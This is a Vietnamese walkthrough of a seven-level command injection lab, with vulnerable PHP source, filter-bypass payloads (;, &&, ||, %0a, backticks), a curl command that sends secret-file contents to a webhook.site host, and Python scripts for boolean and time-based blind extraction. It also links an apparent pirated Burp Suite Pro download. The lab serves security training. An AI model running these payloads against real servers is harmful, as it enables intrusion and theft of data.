


# CHUẨN BỊ MÔI TRƯỜNG

- Tải Docker Desktop tại [đây](https://www.docker.com/products/docker-desktop/).

    

    Tải và đăng nhập (tạo tài khoản cá nhân).

- Tải `burp suite pro` tại [đây](https://drive.google.com/file/d/15ERi4WExrEE4g1JLS0mgAKZKSlBRgQeV/view?usp=sharing).


- Tải File Docker của lab tại [đây]().

# LAB

Chuỗi thử thách về lỗi bảo mật `Command Injection`.

Mục tiêu của bạn là chiếm quyền điều khiển server và đọc một tập tin bí mật ở thư mục gốc (đường dẫn `/`) để chứng minh bạn đã khai thác thành công.

Thử thách này gồm 7 level.

## LAB1

- Đề bài: 

    

    Lab này cho chúng ta 3 lệnh là `nslookup`, `ping` và `dig` với một bottom bên cạnh để ta điền những tham số của các lệnh trên. Trang web sẽ thực hiện in ra kết quả của câu lệnh đó. Ví dụ:

    

    

- Ta có một số phương pháp để nối thêm nhiều lệnh trong Linux như là dấu `;`.

- Ví dụ:

    ```bash
    echo "Lệnh 1"; echo "Lệnh 2"
    ```

    ```bash
    # Kết quả
    Lệnh 1
    Lệnh 2
    ```

- Ta thực hiện test thử việc tiêm câu lệnh `ls -l` sau lệnh `ping` xem sao:

    

    Như vậy lúc này ngoài kết quả của lệnh `ping 8.8.8.8` ra thì việc ta thêm lệnh `ls -l` cũng được thực thi. Lúc này ta thực hiện `ls /` để xem thông tin của thư mục gốc (vì đề bài bảo chúng ta là đọc một tập tin bí mật ở trong thư mục gốc `/`).

- Ta thực hiện như sau `ls /`:

    

    như vậy lúc này ta đã thấy được tên của tệp bí mật, để đọc nội dung của tệp đó ta thực hiện lệnh `cat`:

    ```bash
    ping 8.8.8.8; cat /142awdfasd_secret.txt
    ``` 

    

    Lúc này ta sẽ lấy được dữ liệu bí mật.

- Source code của `LAB1`:

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            switch($command) {
                case "ping":
                    $cmd = "timeout 10 ping -c 4 $target 2>&1";
                    var_dump($cmd);
                    $result = shell_exec($cmd);
                    break;
                case "nslookup":
                    $result = shell_exec("timeout 10 nslookup $target 2>&1");
                    break;	
                case "dig":
                    $result = shell_exec("timeout 10 dig $target 2>&1");
                    break;
            }
            die($result);
        }
    ?>
    ```

## LAB2

- LAB2 là phiên bản đã `fix` được của LAB1, lúc này người lập trang web đã thêm một điều kiện check để chống việc chúng ta chèn thêm bằng một lệnh `if` để chống việc input đầu vào có dấu `;`.

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            if (strpos($target, ";") !== false) 
                die("Hacker detected!");
            switch($command) {
                case "ping":
                    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
                    break;
                case "nslookup":
                    $result = shell_exec("timeout 10 nslookup $target 2>&1");
                    break;	
                case "dig":
                    $result = shell_exec("timeout 10 dig $target 2>&1");
                    break;
            }
            die($result);
        }
    ?>
    ```

    

    

- Như vậy lúc này ta cần tìm cách để có thể tiêm thêm câu lệnh vào lệnh ping trên. Ta thấy ngoài việc nối thêm câu lệnh bằng việc sử dụng `;` thì ta có thể sử dụng `||` hoặc `&&` (bỏ qua kí tự trong black list và sử dụng các kí tự khác).

    Dấu `&&`: sẽ chạy câu lệnh sau nếu câu lệnh trước thành công.

    Dấu `||`: sẽ chạy câu lệnh sau nếu câu lệnh trước thất bại.

- Như vậy bài này ta thực hiện dùng lệnh `&&` như sau:

    ```bash 
    ping 8.8.8.8 && ls /
    ```

    

    ```bash
    ping 8.8.8.8 && cat /ash4zxdf_secret.txt
    ``` 

    

- Còn dùng lệnh `||` ta sẽ thực hiện như sau:

    ```bash
    ping 8.8.8.10000 || ls /
    ```

    Khi ta sử dụng lệnh || thì tức ta muốn thực hiện lệnh `ls /` thì ta phải khiến cho lệnh ping sai.

    

    ```bash
    ping 8.8.8.10000 || cat /ash4zxdf_secret.txt
    ```

    

## LAB3

- LAB3 đã thực hiện fix lỗi của LAB2 đó chính là đã thực hiện chặn lun dấu `;`, `&&` và `||`.

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            if (strpos($target, ";") !== false) 
                die("Hacker detected!");
            if (strpos($target, "&") !== false) 
                die("Hacker detected!");
            if (strpos($target, "|") !== false) 
                die("Hacker detected!");
            switch($command) {
                case "ping":
                    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
                    break;
                case "nslookup":
                    $result = shell_exec("timeout 10 nslookup $target 2>&1");
                    break;	
                case "dig":
                    $result = shell_exec("timeout 10 dig $target 2>&1");
                    break;
            }
            die($result);
        }
    ?>
    ```

- Do lần này không thể tiếp cận theo hướng bypass, vẫn đang theo lối mòn nhưng với LAB này thực sự phải thực hiện đi theo một hướng khác hoàn toàn. Đó là kí tự `newline` (hay còn gọi là kí tự xuống dòng hoặc `Enter` hay `\n`). 

- Như vậy lúc nây ta phải thực hiện sao cho điền được cái dấu newline này vào payload. Lúc này là lúc ta thực hiện sử dụng công cụ `burp suite`.

- Trước tiên mở `burp suite` lên, vô `Proxy` và `Open browser`:

    

    Lúc này burp suite sẽ mở một trang chrome của burp suite lên, bây giờ mọi việc truy cập trang web của hình sẽ được burp suite ghi lại.

    

- Bật sẵn `docker desktop`, truy cập vào `localhost:3003`.

    

    Ở trang `Proxy` vô `HTTP History` chuột phải là nhấn `Clear History` để dẽ dàng nhìn thấy gói tin gửi đi.

- Bây giờ quay lại web của burp suite gửi một gói tin check lệnh `ping 8.8.8.8`.

    

    Lúc này quay lại phần mềm burp suite ta thấy một gói tin được gửi đi.

    

    Click vào gói tin đó thì ta thấy đó chính là gói tin Request và Response của lệnh ping vừa rùi.

    

- Lúc này ta sẽ sử dụng chức năng `Send to Repeater` trong `burp suite` để thực hiện chỉnh sửa gói tin `Request`.

    Trang web muốn giao tiếp với người dùng bằng 2 gói tin laf Request và Respond, khi ta nhấn Check thì chức năng nầy sẽ giữ lại gói tin Request để cho chúng ta chỉnh sửa, chỉnh sửa xong mới thực hiện gửi gói tin đó cho máy chủ.

    Ta thực hiện chuột phải và chọn `Send to Repeater`.

    

    Lúc này ta sang phần `Repeater` thì ta thấy 1 gói tin `Respond` chưa được gửi đi, muốn gửi đi thì ta nhấn `Send`.

    

- Ta lướt xuống cuối của gói tin Respond ta sẽ thấy lệnh được gửi đi:

    

    Lúc này ta thêm `%0als /` sau phần `command=ping&target=8.8.8.8`. Sau đó ta nhấn `Send`:

    

    Như vậy lúc này ta đã có thể tiêm câu lệnh mà không cần sử dụng những kí tự như `;`, `||` hay `&&`.

    > Tại sao lại là `%0a` vì kí tự `\n` có mã ascii là `0x0A`.

    Thực hiện gửi lại gói tin với nội dung như sau:

    ```bash
    command=ping&target=8.8.8.8%0acat /3ef1cafd_secret.txt
    ``` 

    

- Ngoài ra ta còn có thể sử dụng lệnh sử dụng một cách khác ngoài cách chèn thêm một dấu `\n` trong gói tin `Request`. Sử dụng `command substitution` (mệnh lệnh thay thế).

    

- Khi ta gõ:

    ```bash
    dig `ls /`
    dig $(ls /)
    ```

    thì chương trình sẽ thực hiện chạy lệnh `ls /` rùi lấy nguyên cái kết quả của lệnh trên đặt luôn sau lệnh dig. Thì lúc này thì lệnh dig sẽ nhận được cái output đó rùi in ra lỗi, nhưng ta không quan tâm đó là lỗi gì, ta chỉ quan tâm lệnh này cái output của nó có hiện cái output của lệnh `ls /`, đó là lý do tại sao lại lợi dụng lệnh dig mà không phải các lệnh khác.

     

    

- Lệnh ping sẽ cố gắng ping nguyên cái kết quả ở output rùi chửi một câu gắn gọn ở localhost. Vì ping phản hồi lại ít chữ. Cho nền minh sẽ sử dụng lệnh `dig`.

- Dùng lệnh dig thì do lệnh dig chửi nhiều hơn và trong lúc chửi nó vô tinh in ra kết quả của lệnh `ls`. Nếu chặn hết nối dài thì ta sẽ sử dụng lệnh chèn thêm.

        

> 3 bài lab đầu đều thử thách về filter

## LAB4

- Lab4 là một lever khác, họ không in ra output chi tiết mà chỉ in ra 2 trạng thái là `backup thành công` hoặc `backup không thành công`.

- Để giải LAB4 ta suy nghĩ theo các hướng ngoại bằng việc trả lời câu hỏi "có các nào gửi output ra 1 server ngoài hay không.

    

- Lệnh curl dùng để gửi một gói tin http hoặc 1 cú request ra ngoài, tức là bh ta sẽ sử dụng lệnh cat để đọc gói tin rùi curl kết quả đó ra ngoài.

- Bước 1: chúng ta kiểm tra rằng server này có thể bắn được gói tin nào hay không. Sử dụng lệnh curl bằng việc sử dụng chèn command có lệnh curl vào một địa chỉ server (ở đây tay sử dụng `webhook`).

    ```bash
    command=backup&target=tungdeptrai.zip; curl https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```

    Giải thích: `%23` là kí tự `#`, đây là bắt đầu comment và sẽ loại bỏ hết tất cả những câu lệnh sau `#`, địa chỉ webhook ở mỗi mãy 1 khác nhau.

    

    

    Sau khi chạy câu lệnh xong ta thấy có một gói tin entry được gửi cho mỗi trang webhook của mình.

    Điều này chứng minh được rằng vế đầu tiên là có lệnh curl và có cả internet. Vì có nhiều con server ứng dụng weeb đứng trước mặt plugin, vì nhwuxng hệ thống web lớn sẽ có 1 load bylansingm, vì hầu hết các con web sẽ nằm sau một con proxy nào đó, và rất có thẻ ứng dụng web đó không ra ngoài lun. Thật may mắn bài này có internet và có lệnh curl.

- Sau khi biết được chương trình cho phép lệnh curl thì ta thực hiện viết command để có thể đọc được lệnh ls bằng việc chỉnh burp suite như sau:

    ```bash
    # sử dụng từ khóa: how to use curl to send a file để có thể tra được câu lệnh curl
    command=backup&target=tungdeptrai.zip; ls / > /tmp/tungdvan.txt; curl -d @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```

    Giải thích: ban đầu chạy lệnh `ls /` và lấy kết quả đó ghi vào file `/tmp/tungdvan.txt` thông qua toán tử `>`. Sau đó sử dụng lệnh curl để gửi cái file `/tmp/tungdvan.txt` vào server của webhook.

    

    Lúc này ta nhận được 1 gói tin là trong đó ta biết file có flag là `aefd123cdf_secret.txt`. Ta thực hiện viết lại lệnh rùi gửi lần nữa.

    ```bash
    command=backup&target=tungdeptrai.zip; cat /aefd123cdf_secret.txt > /tmp/tungdvan.txt; curl -d @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```

    

    Lúc này ta lấy được flag.

    

    > có thể dùng `command=backup&target=tungdeptrai.zip; ls / > /tmp/tungdvan.txt; curl --data-binary @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23` để in ra đẹp hơn.


    

    LAB5 sẽ không thể sử dụng lệnh curl và không có internet, vậy ta làm như thế nào, hí hí.

    

    

## LAB5

- Như đã đề cập ở trên, LAB4 chúng ta khum thể gửi gói tin ra ngoài được và chúng ta cũng không thể debug được, điều chúng ta biết có lệnh `RUN chmod g+w /var/www/html/`. Lệnh này cho phép các thành viên trong nhóm sở hữu thư mục `/var/www/html/` có thể ghi (write), chỉnh sửa, hoặc tạo tệp/thư mục mới bên trong thư mục này.

- Thư mục `/var/www/html` là thư mục chứa các tệp như HTML, PHP, CSS,.. và các tài nguyên khác của web. KHi bạn truy cập vào địa chỉ localhost thì nội dung hiển thị trên trình duyệt chính là những file có trong thư mục `/var/www/html`.

- Vậy ta thấy là thư mục này đang được cho phép ghi, ta chỉ cần ghi kết quả của những lệnh chèn thêm vào 1 file có trong thư mục này rùi thục hiện truy cập vào trang web thông qua đường dẫn là ra.

- Ta thực hiện như sau:

    ```bash
    backup ; ls / > /var/www/html/tt.txt
    ```

    

    Lúc này ta thực hiện truy cập trang web `http://localhost/tt.txt` thì ta sẽ thấy kết quả của lệnh liệt kê các thư mục có trong thư mục gốc.

    

    Ta thực hiện tiếp.

    ```bash
    backup ; echo `cat /aef15696cd_secret.txt` > /var/www/html/tt.txt
    ```

    Load lại ta sẽ được flag là:

    

## LAB6

- Lab6 là một phiên bản nâng cấp của LAB5, lab này chỉ trả về 2 giá trị là `Backup thành coong` hoặc `Backup không thành coong`, ta chỉ có thể dựa vào điều thành để có thể tấn công và đọc dữ liệu ra ngoài.

- Đầu tiên ta cùng phân tích source:

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            switch($command) {
                case "backup":
                    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
                    var_dump($cmd);
                    if ($result !== null && strpos($result, "zip error") === false)
                        die("Backup thành công");
                    else
                        die("Backup không thành công");
                    break;
            }
            die("Một số chức năng đang được bảo trì. Mời bạn nạp tiền để có thể tiếp tục duy trì dự án");
        }
    ?>
    ```

    Ta thấy rằng lệnh check if else ở đây sẽ dãy kết quả trả về khác null và trong kết quả trả về không có chuỗi `zip error` thì sẽ hiện `backup thành công`, còn không thì sẽ hiện `backup không thành công`. Ta sẽ lợi dụng điều này để thực hiện tạo 1 tín hiệu giả để dựa vào tín hiệu đó ta suy ra được những dữ liệu nhạy cảm. Bây giờ ta sẽ thực `var_dump` để xem phần input của chúng ta nằm ở phần nào ở trong câu lệnh shell.

    

    Lúc này ta thấy là sẽ thực hiện lệnh zip thư mục input trong thư mục /tmp/ nén sang thành `/var/www/html/index.php`. Lúc này ta thực hiện dụng burp suite để thực hiện chèn thêm câu lệnh vào.

- Như những lab trước ta làm thì ta thường sử dụng %23 để cho chương trình loại bỏ những phần sau input của chúng ta, tỏng trường hợp này chúng ta dùng thì luôn luôn trả về Backup không thành công.

    

    Nó luôn trả về backup không thành công vì lệnh zip là có 2 tham số là file cần zip và chỗ lưu trữ file zip đó. Khi ta chưa chèn thêm code thì nó sẽ như sau:

    

    Nhưng sau khi chèn thêm code có %23 thì nó sẽ trở thành câu lệnh sau;

    

    Nên lúc này thì chương trình luôn bị lỗi ở lệnh zip này, vậy chúng ta cần phải truyền thêm phần ở `/var/www/html/index.php` trước `%23` để luôn trả về `backup thành công`.

    

    Lúc này ta chỉ cần chỉnh phần echo thay vì test thì ta thay bằng `zip error` thì nó sẽ trả về kết quả `backup không thành công`. Như vậy ta đã hoàn thành tạo được 1 tín hiệu giả bằng giá trị trả về là `true` hay `false`.

    

- Như vậy ta sẽ lợi dụng điều này để thực hiện lệnh chèn thêm code với mục đích nếu đúng với yêu cầu của ta thì ta sẽ in ra là `backup thành công`, nếu không đúng sẽ in ra `backup không thành công` thông qua giá trị `true` hay `false` trả về.

- Ý tưởng lúc này của ta là ta sẽ thực hiện viết những câu lệnh if-else để có thể đọc được những dữ liệu mà ta không nhìn thấy được.

    ví dụ chuỗi s = "abcd" là dữ liệu nhạy cảm thì ta thực hiện lệnh if-else như là s[0] == 'h' thì việc kiểm tra như này gián tiếp làm lộ thông tin của chuỗi s.

- Bây giờ ta thực hiện viết câu lệnh if-else trong command (con shell đang chạy là `/bin/sh` khác với `/bin/bash`), tham khảo ở [đây](https://www.digitalocean.com/community/tutorials/if-else-in-shell-scripts) để có thể viết shell if-else:

    ```bash
    if [condition]
    then
    statement1
    else
    statement2
    fi
    ```

    Bây giờ ta thử một tính hiệu xem có được hay không.

    

    

    ```bash
    command=backup&target=z /var/www/html/index.php; if [ 2 -eq 2 ]
    then 
    echo "1"
    else 
    echo "zip error"
    fi %23
    ```

- bây giờ ta sẽ viết câu lệnh để kiểm tra chuỗi;

    

    Câu lệnh điều kiện `if` là

    ```bash
    ls / | tr -d '\n' | cut -c 1
    ```

    Đây là lệnh in ra kết quả của câu lệnh `ls /` rùi thực hiện lược bỏ nhừng kí tự xuống đòng, rùi đọc kí tự đầu tiên của chuỗi đó.

    Ví dụ:

    ```txt
    bin
    tmp             ------>        bintmptung.txt
    tung.txt
    ```

- Sau đó ta thực hiện viết script bằng python. Lúc này ta thực hiện sử dụng thư viện `requests`.

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    #đây là payload exploit
    inject = 'z /var/www/html/index.php; if [ `ls | tr -d \'\\n\' | cut -c 1` = \'2\' ];then echo "1";else echo "zip error";fi #'

    # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
    # hai tham số POST sẽ được dặt vòa một tham số thứ 2
    r = requests.post(URL, {'command':'backup', 'target':inject})

    #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
    print(r.text)
    ```

    

- Bây giờ ta sẽ brute force bằng vòng lặp để kiểm tra từng kí tự một:

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for c in charset:
        #đây là payload exploit
        inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c 1` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c)
        # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
        # hai tham số POST sẽ được dặt vòa một tham số thứ 2
        r = requests.post(URL, {'command':'backup', 'target':inject})
        #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
        print(r.text)
    ```

    

- Bây giờ ta sẽ thực hiện brute force từng kí tự của mỗi kí tự thứ i, sau đó chỉ in ra kí tự nếu mà thỏa mãn:

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})
            # #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
            # print(r.text)
            if r.text == "Backup thành công":
                print(end = c)
                break
    ```

    sau khi chạy ta biết được file chữa dữ liệu là file có tên là `aba1238ygv_secret.txt`:

    

- Đến lúc này ta đổi điều kiện check là `ls /` thành `cat /aba1238ygv_secret.txt` thì sẽ là brute force từng kí tự của file trên:

    ```python
    # boolen-based
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3006/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `cat /aba1238ygv_secret.txt | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then echo "1";else echo "zip error";fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})
            # #in ra kết quả HTTP trả về, sau đó lưu vòa `.text` của biến `r`
            # print(r.text)
            if r.text == "Backup thành công":
                print(end = c)
                break
    # boolen blind command injection
    ```

    Sau cùng ta sẽ lấy được flag của bài này là:

    


## LAB7

- LAB7 là một phiển bản nâng cấp của lab6, thay vì in ra `backup thành coong` hay `backup không thành coong` thì bài này chỉ in ra một dòng dù lệnh có chạy thành công shell hay không, tức là không có tín hiệu gì.

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            switch($command) {
                case "backup":
                    # Backup to /tmp/ folder and prevent writable to document root 
                    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
                    die("Đã chạy câu lệnh backup");
                    break;
                // CHANGELOG: Bảo trì
                // case "ping":
                // 	$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
                // 	break;
                // case "nslookup":
                // 	$result = shell_exec("timeout 10 nslookup $target 2>&1");
                // 	break;	
                // case "dig":
                // 	$result = shell_exec("timeout 10 dig $target 2>&1");
                // 	break;
            }
            die("Một số chức năng đang được bảo trì. Mời bạn nạp tiền để có thể tiếp tục duy trì dự án");
        }
    ?>
    ```

- Vậy nếu không nhận được tín hiệu thì lúc này chúng ta sẽ tự tạo ra tín hiệu. Trước đấy là tín hiệu là chuỗi `zip error` thì ta sẽ sử dụng thời gian để tạo tín hiệu, tức là nếu sai thì sẽ không sao còn nếu đúng thì sẽ sleep 3 giây, lúc này thì ta sẽ biết được lúc nào kiểm tra đúng lúc nào kiểm tra sai dựa vào thời gian respond của máy chủ.

    ```python
    import requests
    import time
    # thư viện time cho pehsp chúng ta lấy ra thời gian thực

    URL = 'http://cmdi.cyberjutsu-lab.tech:3007/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then sleep 2;else echo sleep 0;fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})

            # print(r.elapsed)
            # đây là khoảng thời gian phản hổi của rrequest và respond
            # r.elapsed.total_seconds() 
            # đây à thời gian bản hồi dưới dạng số thực

            if r.elapsed.total_seconds() > 2:
                print(end = c)
                break
    # aef15696cd_secret.txt
    ```

    

- Sau khi tìm được tên file thì ta thực hiện brute force từng kí tự của file đó:

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3007/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `cat /aef15696cd_secret.txt | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then sleep 2;else echo sleep 0;fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})

            # print(r.elapsed)
            # đây là khoảng thời gian phản hổi của rrequest và respond
            # r.elapsed.total_seconds() 
            # đây à thời gian bản hồi dưới dạng số thực

            if r.elapsed.total_seconds() > 2:
                print(end = c)
                break

    # CBJS{Dr_Str4nge_W1Ll_pR0ud_oF_y0U_5be2459fbc44d1c2331cb840acd15fd0}
    ```

    

